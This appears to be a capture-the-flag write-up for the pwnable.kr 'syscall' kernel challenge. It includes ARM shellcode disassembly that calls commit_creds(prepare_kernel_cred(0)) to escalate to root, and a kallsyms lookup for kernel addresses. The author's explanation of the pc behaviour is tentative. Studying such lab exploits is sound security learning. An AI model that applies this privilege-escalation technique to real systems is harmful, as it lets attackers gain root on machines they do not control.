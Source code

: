 # Question

```
ssh syscall@pwnable.kr -p2222
```

# syscall.c

```c
if(in[i]>=0x61 && in[i]<=0x7a){ // a-z
  out[i] = in[i] - 0x20;
}
else{
  out[i] = in[i];
}

```

# Shellcode

```
$ sudo apt install binutils-arm-linux-gnueabi
```

# Solution

`sys_upper` can be used to read or write arbitrary contents.

Each process is represented in the kernel via `task_struct` structure as [this article](https://snyk.io/blog/kernel-privilege-escalation/) says. This structure contains a user's credential. `commit_creds(prepare_kernel_cred(0))` can overwrite this data.

We can call this via the following code (taken from [here](http://alkalinesecurity.com/blog/ctf-writeups/pwnable-challenge-syscall/)):

```
   0:   e28f6001        add     r6, pc, #1
   4:   e12fff16        bx      r6

   0:   b501            push    {r0, lr}
   2:   1a92            subs    r2, r2, r2
   4:   1c10            adds    r0, r2, #0
   6:   46f0            mov     r8, lr
   8:   4a02            ldr     r2, [pc, #8]    ; (14 <.text+0x14>)
   a:   4790            blx     r2

   0:   4a02            ldr     r2, [pc, #8]    ; (c <.text+0xc>)
   2:   321c            adds    r2, #28
   4:   4790            blx     r2
   6:   bd01            pop     {r0, pc}

   8:   f924 8003       vld4.8  {d8-d11}, [r4], r3 ; prepare_kernel_cred
   c:   f550 8003       bpl.w   fff10016 <.text+0xfff10016>
```

The address of a symbol in kernel can be retreived like this:

```
$ cat /proc/kallsyms | grep -n commit_creds
```

The program counter (`pc`) is 32 bits long, so I guess it contains the next address and the next address of the next in thumb-mode. The returned value is stored in r0 and this is used as the first argument of the next call.
